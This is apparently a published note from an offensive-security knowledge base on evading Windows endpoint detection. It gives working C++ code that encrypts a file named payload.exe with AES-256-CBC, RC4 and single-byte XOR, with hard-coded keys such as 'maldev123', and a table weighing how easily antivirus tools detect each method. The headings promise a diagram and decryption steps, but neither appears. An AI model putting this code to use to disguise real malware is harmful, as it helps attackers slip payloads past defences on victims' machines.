

---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/1a-aes-rc-4-xor-encryption/","noteIcon":"","created":"2025-04-15T14:11:19.620-04:00"}
---


To **implement AES, RC4, and XOR encryption** for a `payload.exe` file, you need to follow these steps:

---

## **1. Overview of Encryption Techniques**
| **Encryption Method**                  | **Key Features**                                            | **Pros**                            | **Cons**                                      |
| -------------------------------------- | ----------------------------------------------------------- | ----------------------------------- | --------------------------------------------- |
| **AES (Advanced Encryption Standard)** | Uses **128/192/256-bit keys**, operates in **CBC/GCM mode** | Strong encryption, widely supported | Can be detected if using WinAPIs (bcrypt.dll) |
| **RC4 (Rivest Cipher 4)**              | **Stream cipher**, uses XOR operations                      | Fast, simple, bidirectional         | Weak, vulnerable to cryptanalysis             |
| **XOR (Exclusive OR)**                 | Uses a **single-byte or multi-byte key** for XOR encoding   | Fast, lightweight, no dependencies  | Easily brute-forced                           |

---

## **2. Mermaid Diagram: Payload Encryption Workflow**

---

## **3. Steps to Implement Encryption in `payload.exe`**
### **3.1 Encrypting and Decrypting with AES**
To encrypt `payload.exe` using **AES256-CBC**, follow this approach:

### **Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <bcrypt.h>

#pragma comment(lib, "bcrypt.lib")

#define KEYSIZE 32
#define IVSIZE 16

void EncryptPayload(PBYTE pPayload, DWORD dwSize, PBYTE pKey, PBYTE pIV, PBYTE* pEncrypted, DWORD* pEncryptedSize) {
    BCRYPT_ALG_HANDLE hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE hKeyHandle = NULL;
    NTSTATUS status;
    DWORD cbResult, cbKeyObject, cbCipherText;

    status = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);

    status = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
    PBYTE pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);

    status = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, pKey, KEYSIZE, 0);
    
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, NULL, 0, &cbCipherText, BCRYPT_BLOCK_PADDING);
    *pEncrypted = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbCipherText);
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, *pEncrypted, cbCipherText, &cbResult, BCRYPT_BLOCK_PADDING);

    *pEncryptedSize = cbResult;
    BCryptDestroyKey(hKeyHandle);
    BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    HeapFree(GetProcessHeap(), 0, pbKeyObject);
}

int main() {
    BYTE key[KEYSIZE] = { 0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99, 0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF, 0x00, 
                          0x10, 0x20, 0x30, 0x40, 0x50, 0x60, 0x70, 0x80, 0x90, 0xA0, 0xB0, 0xC0, 0xD0, 0xE0, 0xF0, 0x00 };
    BYTE iv[IVSIZE] = { 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F, 0x10 };
    
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    PBYTE pEncrypted;
    DWORD dwEncryptedSize;
    EncryptPayload(pPayload, dwSize, key, iv, &pEncrypted, &dwEncryptedSize);

    hFile = CreateFile("payload_encrypted_aes.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pEncrypted, dwEncryptedSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);
    HeapFree(GetProcessHeap(), 0, pEncrypted);

    return 0;
}
```

---

### **3.2 Encrypting and Decrypting with RC4**
#### **RC4 Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <string.h>

void RC4EncryptDecrypt(unsigned char* data, size_t dataSize, unsigned char* key, size_t keySize) {
    unsigned char s[256];
    unsigned int i, j = 0, temp;
    for (i = 0; i < 256; i++) s[i] = i;
    for (i = 0; i < 256; i++) {
        j = (j + s[i] + key[i % keySize]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
    }
    
    i = j = 0;
    for (size_t k = 0; k < dataSize; k++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
        data[k] ^= s[(s[i] + s[j]) % 256];
    }
}

int main() {
    unsigned char key[] = "maldev123";
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    RC4EncryptDecrypt(pPayload, dwSize, key, strlen((char*)key));

    hFile = CreateFile("payload_encrypted_rc4.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---

### **3.3 Encrypting and Decrypting with XOR**
```cpp
#include <windows.h>
#include <stdio.h>

void XORCipher(unsigned char* data, size_t dataSize, unsigned char key) {
    for (size_t i = 0; i < dataSize; i++)
        data[i] ^= key;
}

int main() {
    unsigned char key = 0xAA;
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    XORCipher(pPayload, dwSize, key);

    hFile = CreateFile("payload_encrypted_xor.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---

